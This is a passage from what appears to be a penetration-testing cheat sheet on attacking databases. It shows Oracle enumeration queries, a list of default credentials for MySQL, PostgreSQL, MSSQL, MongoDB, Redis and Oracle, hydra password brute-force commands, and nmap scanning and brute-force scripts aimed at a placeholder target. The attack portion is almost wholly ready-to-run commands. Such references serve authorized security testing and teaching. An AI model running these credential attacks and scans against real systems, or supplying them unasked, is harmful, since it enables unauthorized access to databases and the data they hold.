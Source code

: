 ### Oracle

```sql
-- Version
SELECT * FROM v$version;

-- Current user
SELECT user FROM dual;

-- Tables
SELECT table_name FROM all_tables;

-- Privileges
SELECT * FROM session_privs;

-- Execute OS commands (requires Java stored procedures)
-- Requires specific setup and privileges
```

## Direct Database Attacks

### Default Credentials

```
MySQL: root / (blank), root / root
PostgreSQL: postgres / postgres
MSSQL: sa / (blank), sa / sa
MongoDB: (no auth by default)
Redis: (no auth by default)
Oracle: system / manager, sys / change_on_install
```

### Brute Force

```bash
# MySQL
hydra -l root -P passwords.txt mysql://target.com

# PostgreSQL
hydra -l postgres -P passwords.txt postgres://target.com

# MSSQL
hydra -l sa -P passwords.txt mssql://target.com

# MongoDB
nmap -p 27017 --script mongodb-brute target.com
```

### Network Scanning

```bash
# Nmap database detection
nmap -p 3306,5432,1433,27017,6379 target.com

# MySQL
nmap -p 3306 --script mysql-info,mysql-enum target.com

# PostgreSQL
nmap -p 5432 --script pgsql-brute target.com

# MSSQL
nmap -p 1433 --script ms-sql-info,ms-sql-brute target.com

# MongoDB
nmap -p 27017 --script mongodb-info,mongodb-databases target.com
```